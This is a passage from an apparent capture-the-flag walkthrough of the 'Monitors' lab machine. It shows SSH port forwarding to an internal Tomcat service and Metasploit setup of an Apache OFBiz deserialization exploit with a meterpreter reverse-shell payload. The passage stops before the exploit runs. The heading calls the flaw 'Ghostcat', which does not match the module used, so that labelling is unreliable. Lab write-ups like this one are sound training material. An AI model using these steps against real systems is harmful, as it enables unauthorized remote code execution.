 We can access this local port using ssh port forwarding. Let us log out and use the following command to forward the local port 8443 on monitors.htb to local port 8443 our localhost.

`ssh -L 8443:127.0.0.1:8443 marcus@monitors.htb`


Querying open local ports, we can see that 8443 is now open on our localhost

![local-port-fw.png](/img/monitors/local-port-fw.png)

Browsing to http://localhost:8443/, it appears that the app requires https. 

We change to https://localhost:8443/. Browsing to the URL, we get a 404 error.

Looking around the application did not reveal much. However, we can see that the server is running Tomcat 9.0.31.

### Exploiting AJP 'Ghostcat' File Read/Inclusion

Searching for exploits, we can see that there is a metaploit module for a [AJP 'Ghostcat' File Read/Inclusion](https://www.exploit-db.com/exploits/49039) vulnerability. 

Let us start metasploit and use the following metasploit module: 

`exploit/linux/http/apache_ofbiz_deserialization`

```
msf6 > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
```

We make the necessary config changes as follows:

```
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set SRVPORT 8081
SRVPORT => 8081
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set LHOST tun0
LHOST => tun0
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set LPORT 6969
LPORT => 6969
```

Let us review the settings before we continue

```
msf6 exploit(linux/http/apache_ofbiz_deserialization) > show options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8081             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
```